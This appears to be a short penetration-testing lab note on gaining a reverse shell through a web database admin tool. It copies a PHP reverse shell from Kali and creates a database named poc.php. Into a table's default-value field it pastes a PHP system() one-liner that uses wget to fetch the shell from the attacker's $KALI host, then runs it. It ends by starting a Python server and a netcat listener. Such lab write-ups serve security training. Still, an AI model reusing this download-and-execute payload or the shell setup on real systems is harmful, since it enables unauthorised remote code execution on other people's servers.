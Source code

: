 
Video Walkthrough
https://www.youtube.com/watch?v=mHsMCfg_KQw

#### reverse shell

```bash - kali
cp /usr/share/webshells/php/php-reverse-shell.php ./Shelly.txt
```

edit file to host and ip.

Create a new Database poc.php

![[Pasted image 20221108115012.png]]

![[Pasted image 20221108115033.png]]

Create a new table:

![[Pasted image 20220616154316.png]]

Paste the following php code in the "Default Value" textbox.
```bash - kali
<?php system("wget $KALI:80/Shelly.txt -O /tmp/Shelly.php; php /tmp/Shelly.php"); ?>
```

![[Pasted image 20221108115110.png]]

Below, we can see our table was created in `/usr/local/databases/poc.php`

![[Pasted image 20221115132603.png]]

Now we set up our python server.

![[Python#Server]]

set up your netcat listener

![[rlwrap]]



